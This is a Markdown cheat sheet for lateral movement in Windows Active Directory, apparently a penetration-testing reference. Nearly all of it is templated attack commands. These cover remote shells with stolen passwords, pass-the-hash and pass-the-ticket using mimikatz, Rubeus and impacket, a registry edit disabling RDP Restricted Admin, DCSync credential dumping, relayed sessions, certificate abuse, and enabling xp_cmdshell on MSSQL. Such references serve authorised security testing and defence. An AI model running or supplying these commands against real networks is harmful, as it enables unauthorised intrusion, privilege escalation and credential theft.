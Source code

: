 # Lateral Move

## Clear text Password >>> Admin
- Interactive-shell - psexec >>> Authority/System
  - `psexec.py <domain>/<user>:<password>@<ip>`
  - `psexec.exe -AcceptEULA \\<ip>`
  - `psexecsvc.py <domain>/<user>:<password>@<ip>`
- Pseudo-shell (file write and read)
  - `atexec.py  <domain>/<user>:<password>@<ip> "command"`
  - `smbexec.py  <domain>/<user>:<password>@<ip>`
  - `wmiexec.py  <domain>/<user>:<password>@<ip>`
  - `dcomexec.py  <domain>/<user>:<password>@<ip>`
  - `nxc smb <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- WinRM >>> Low access || Admin
  - `evil-winrm -i <ip> -u <user> -p <password>`
  - `Enter-PSSession -ComputerName <computer> -Credential <domain>\<user>`
  - `nxc winrm <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- RDP >>> Low access || Admin
  - `xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>`
- SMB >>> Search files
  - `smbclient.py <domain>/<user>:<password>@<ip>`
  - `smbclient-ng.py -d <domain> -u <user> -p <password> --host <ip>`
- MSSQL >>> MSSQL
  - `nxc mssql <ip_range> -u <user> -p <password>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`

## NT Hash
- Pass the Hash
  - MSSQL/PseudoShell PsExec/SMB...  >>> Admin
    - `impacket : same as with creds, but use -hashes ':<hash>'`
    - `nxc : same as with creds, but use -H ':<hash>'`
  - `mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"` >>> Admin
  - RDP >>> Low access || Admin
    - `reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'`
      - `xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>`
  - WinRM >>> Low access || Admin
    - `evil-winrm -i <ip> -u <user> -H <hash>`
- Overpass the Hash / Pass the key (PTK) >>> Admin
  - `Rubeus.exe asktgt /user:victim /rc4:<rc4value>`
    - `Rubeus.exe ptt /ticket:<ticket>`
    - `Rubeus.exe createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]`
  - `getTGT.py <domain>/<user> -hashes :<hashes>`

## Kerberos
- Pass the Ticket (ccache / kirbi)
  - Convert Format
    - `ticketConverter.py <kirbi||ccache> <ccache||kirbi>`
  - `export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache` >>> Admin
    - `impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket`
  - `mimikatz kerberos::ptc "<ticket>"`
  - `Rubeus.exe ptt /ticket:<ticket>`
  - `proxychains secretsdump.py -k'<domain>'/'<user>'@'<ip>'`
  - Modify SPN >>> PassTheTicket
    - `tgssub.py -in <ticket.ccache> -out <newticket.ccache> -altservice "<service>/<target>" #pr 1256`

- Aeskey >>> Admin
  - `impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)`
  - `proxychains secretsdump.py -aesKey <key> '<domain>'/'<user>'@'<ip>'`

## Socks (relay)
- `proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids`
- `proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass` >>> MSSQL
- `proxychains secretsdump.py -no-pass '<domain>'/'<user>'@'<ip>'` >>> DCSYNC
- `proxychains smbclient.py -no-pass <user>@<ip>` >>> Search files
- `proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"` >>> Authority/System
- `proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>` >>> Authority/System

## Certificate (pfx)
- unpac the hash
  - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - `gettgtpkinit.py -cert-pfx <crt.pfx> -pfx-pass <crt_pass> "<domain>/<dc_name>" <tgt.ccache>`
    - `getnthash.py -key '<AS-REP encryption key>' '<domain>'/'<dc_name>'`
- Pass the certificate
  - pkinit
    - `gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"`
    - `Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show`
    - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - schannel
    - `certipy auth -pfx <pfx_file> -ldap-shell`
      - add_computer
        - Set RBCD >>> RBCD
    - `certipy cert -pfx "<pfx_file>" -nokey -out "user.crt"`
      - `certipy cert -pfx "<pfx_file>" -nocert -out "user.key"`
        - `passthecert.py -action ldap-shell -crt <user.crt> -key <user.key> -domain <domain> -dc-ip <dc_ip>`

## MSSQL
- find mssql access
  - `nxc mssql <ip> -u <user> -p <password> -d <domain>` >>> MSSQL
- Users with SQLadmin
  - `MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p` >>> MSSQL
- `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
  - `enum_db`
  - `enable_xp_cmdshell`
    - `xp_cmdshell <cmd>` >>> Low Access
  - `enum_impersonate`
    - `exec_as_user <user>` >>> MSSQL
    - `exec_as_login <login>` >>> MSSQL
  - `xp_dir_tree <ip>` >>> COERCE SMB
  - `trustlink` 
    - `sp_linkedservers`
      - `use_link` >>> MSSQL || Trust